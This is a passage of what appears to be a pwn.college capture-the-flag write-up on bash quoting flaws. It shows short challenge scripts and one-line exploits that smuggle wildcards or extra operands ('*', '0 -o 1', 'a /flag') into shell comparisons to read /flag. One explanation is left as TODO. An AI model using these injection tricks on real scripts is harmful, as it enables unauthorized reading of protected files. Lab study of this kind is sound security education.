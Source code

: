 ### exploit
```sh
/challenge/run "a /flag"
```
unquoted expansion of $* leads to supplying second parameter to pretty_cat function, causing second parameter to move to FILE variable.

# Way of the Wildcard

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

read FLAG < /flag
[[ "$FLAG" = $1 ]] && cat /flag
echo "Goodbye!"
```

### exploit
```sh
/challenge/run "*"
```
'*' is a wildcard, expanding to any possible string

# Saga of the Sneaky Similarity

### chall

```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin
CHALLENGE=$RANDOM$RANDOM$RANDOM

[ -n "$1" ] || exit 1
[ $1 -eq "$CHALLENGE" ] && cat /flag
echo "Goodbye!"
```

### exploit
```sh
/challenge/run "0 -o 1"
```
TODO

# Enigma of the Environment
